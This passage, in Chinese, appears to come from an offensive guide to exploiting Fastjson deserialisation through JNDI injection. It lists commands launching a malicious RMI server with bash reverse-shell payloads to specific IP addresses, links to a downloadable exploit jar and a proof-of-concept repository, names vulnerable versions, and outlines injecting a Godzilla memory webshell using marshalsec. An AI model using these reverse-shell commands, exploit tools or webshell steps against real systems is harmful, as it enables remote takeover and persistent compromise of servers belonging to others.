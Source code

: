java -cp jndi_tool.jar jndi.EvilRMIServer 1099 8888 "bash -i >&/dev/tcp/192.168.2.40/9999 0>&1"

java -cp jndi_tool.jar jndi.EvilRMIServer 1099 8888 "bash -i >&/dev/tcp/1.14.74.119/8888 0>&1"

恶意类启动建议使用：

```
https://toolaffix.oss-cn-beijing.aliyuncs.com/wyzxxz/jndi_tool.jar
```

POC建议使用：

```
https://github.com/zhzyker/exphub/tree/946405b3447dbaf2a5eb49e2f56ec33fe1165e49/fastjson
```

值得注意的几个大版本，1.2.24 通杀、1.2.47 ，这两个可以进行JNDI注入反弹shell，1.2.68版本很难使用JNDI注入了，所以常用写文件的方式进行RCE，1.2.80版本同理，受益于浅蓝大佬的公开，得以使用，但实战利用条件同样苛刻。

# 七、内存马注入

## 1、JNDI注入内存马：

生成哥斯拉内存马：

![](/zj_img/WEBRESOURCE2252676750d37c1b9814059859c54283image.png)

开启http服务：

![](/zj_img/WEBRESOURCE952f2dc8aa7ade6cd6478f775b671407image.png)

开启rmi服务，注意最好使用jdk 8

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.5.106:8888/#a" 9999
```

![](/zj_img/WEBRESOURCEe255eed7da6b57489997a9b1199f33b2image.png)

添加密码和密钥,Referer:连接即可：

![](/zj_img/WEBRESOURCE30348d3b989d57b7e692fc6e9039b536image.png)

## 2、C3P0 内存马注入

参见3.2.5

## 3、BCEL注入

## 4、写文件charsets.jar注入

这种方法属于是对计划任务不出网的一种补充，但是实操难度较高。
